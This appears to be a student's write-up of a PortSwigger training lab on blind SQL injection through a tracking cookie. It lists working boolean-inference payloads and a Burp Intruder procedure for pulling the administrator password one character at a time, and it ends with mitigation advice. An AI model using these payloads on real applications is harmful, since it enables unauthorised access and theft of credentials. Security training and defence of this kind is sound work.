 # Blind SQL Injection with Conditional Responses

## Goal:
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Pets HTTP/2
```
### 2. Modify Tracking ID to test single boolean condition and infer result

**Injected Payload:**
```sql
' AND '1'='1
```

**The Traking ID becomes:**
```http
Cookie: TrackingId=<ID>'+AND+'1'='1;
```
This returned a "Welcome back" message.

**Injected Payload:**
```sql
' AND '1'='2`
```
**The Traking ID becomes:**
```
Cookie: TrackingId=<ID>'+AND+'1'='2;
```
This did not return "Welcome back" message. This demostrates how a single boolean condition can be tested to infer the result.

### 3. Modify Tracking ID to verify Table Name

```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

This returned a "Welcome back" message, confirming that there is a table called `users`.

Here `LIMIT 1` is used to ensure the subquery returns exactly one row.

`' AND (SELECT 'a' FROM users)='a` will select more than one row which might cause an error. SQL doesn't allow a **scalar subquery** (one used in a comparison like = 'a') to return multiple rows. 

### 4. Modify Tracking ID to verify username

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

This returned a "Welcome back" message, confirming there is a user called `administrator`

### 5. Identify length of password and Send to Intruder

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Tried several numbers to identify the password length, until I infered that the password length was 20.

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a
```

Sent to Intruder

### 5. Retrieve the password of 'administrator' using Sniper Attack

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

`SUBSTRING(password, 1, 1)` means:

Syntax: `SUBSTRING(string_expression, start_position, length)`

- `SUBSTRING` is a SQL string function used to extract a portion of a string.
- `password` is the string to extract from, 
- start at position `1` (SQL uses 1-based indexing), 
- extract `1` character.

So this returns the first character of the password field.

Select `Add §` button from the intruder, after selecting `a`

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
```

From Payload tab, specify
Payload type: simple list
Payload configuration: a-z and 0-9 (assuming no capital letters)

In settings, Grep-match for the value `Welcome back`

Start attack  (Sniper attack)

This returned a "Welcome back" message only for character `m`, indicating that `m` is the first character of the password.

![burpsuite response](./misc-images/09-1.png)

Repeated the process for second character:
```sql
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§`
```

This returned a "Welcome back" message only for character `i`, indicating that `i` is the second character of the password.

Continued this process for all 20 characters, and retreived the final password.

Logged in as the administrator using the password retrived.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how password attack using `AND 1=1` works.

---

## Notes

